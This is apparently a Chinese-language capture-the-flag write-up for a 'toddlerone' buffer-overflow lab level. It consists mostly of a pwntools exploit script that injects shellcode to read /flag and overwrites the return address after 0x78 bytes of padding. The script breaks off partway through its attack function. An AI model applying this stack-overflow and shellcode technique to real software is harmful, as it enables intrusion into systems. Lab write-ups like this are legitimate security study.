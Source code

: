 以后像这种子 level，如非必要，我都不会再贴 wp 了，因为和 main level 没太大区别，无非就是删除了多余的提示信息，strip 了符号表和调试信息。

## Exploit

```python
#!/usr/bin/python3

from pwn import ELF, asm, context, gdb, log, p64, pause, process, remote, shellcraft

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-1-1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

padding_to_ret = b"".ljust(0x78, b"A")
ret_addr = p64(0x22A60000)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def construct_payload(stage):
    stage_1 = shellcraft.cat("/flag")
    stage_2 = padding_to_ret + ret_addr

    if stage == 1:
        return asm(stage_1)
    elif stage == 2:
        return stage_2
    else:
        log.failure("Unknown stage number.")


def attack(target, payload):
    try:
        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)

```